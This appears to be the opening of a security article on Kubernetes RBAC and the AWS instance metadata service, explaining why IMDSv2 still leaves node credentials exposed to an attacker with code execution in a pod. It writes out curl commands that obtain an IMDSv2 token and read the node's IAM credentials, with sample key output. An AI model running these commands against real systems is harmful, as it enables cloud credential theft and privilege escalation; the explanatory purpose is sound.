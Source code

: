 

## Introduction
The principle of role-based access control (RBAC) within kubernetes is built on a simple idea - provide only the permissions required by an individual process (pod, in this case) in order for it to do its job. There's a lot riding on this control: get it right, and pods managing all kinds of different workloads can safely operate alongside each other in a common environment; get it wrong though, and there is the very real risk of simple vulnerabilities escalating into potentially disastrous outcomes.

The situation isn't helped by the fact that, within a kubernetes cluster, not all players are equal. Pods may only need basic permissions to perform their specific task (pulling messages from SQS, writing files to S3 etc.) but something has to provide the resources for those pods to run on, which is the role of the worker nodes. These nodes require access at a more fundamental (and impactful) level - they need to be able to pull the images that run the workloads, as well as understand the resources and configuration of the environment they exist within.

A lot of this functionality is handled via the Internal Metadata Service (IMDS), a locally-accessible API that provides access to configuration data, as well as the credentials needed for the node to authenticate itself. IMDS was never intended to service anything but the hosting node, but the nature of the container runtime (EKS uses [containerd](https://containerd.io/)) means that pods are simply processes running atop the worker, allowing them to access the infamous `http://169.254.169.254` address just as easily. Since the first version of IMDS (`IMDSv1`) was built with no method of authentication, this enabled a straightforward path to privilege escalation that resulted in a number of high-profile incidents, such as the [Capital One data breach](https://dl.acm.org/doi/full/10.1145/3546068) in 2019.

In response, Amazon introduced [IMDSv2](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html) and took a major step forward in reducing this risk, by mandating use of the metadata API must first involve generation of a session token via an `HTTP PUT` request. This token must then be supplied via a header in all subsequent requests. Asssuming that IMDSv2 is not just enabled but actually *enforced*, this prevents an attacker from proxying metadata requests using various common methods, such as abusing a misconfigured firewall, unrestricted reverse proxy or server-side request forgery (SSRF) vulnerability. And yet, it still doesn't fully address the problem.

## The Remaining Threat: RCE
By itself, the new approach to security in IMDSv2 is still vulnerable to abuse through the discovery of remote code execution (RCE). An attacker who can execute commands inside a running pod (via uploading a web-shell, discovery a command injection vulnerability or similar) can easily promote themselves to node-level access. How easily? Simply request a session token via curl:

```sh
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" -s)
```

then use that token to retrieve instance credentials from the node via IMDS:
```sh
curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/karpenter-worker/

{
  "Code" : "Success",
  "LastUpdated" : "2025-08-04T06:23:29Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA4VDBL2NIXYVXTEPT",
  "SecretAccessKey" : "d5NB5Jr/y+018xfUdjtuNO/3Q9sxmps21bW6rGK1",
  "Token" : "IQoJb3Jp...B6alm4tBg6A==",
  "Expiration" : "2025-08-04T12:57:32Z"
}
```

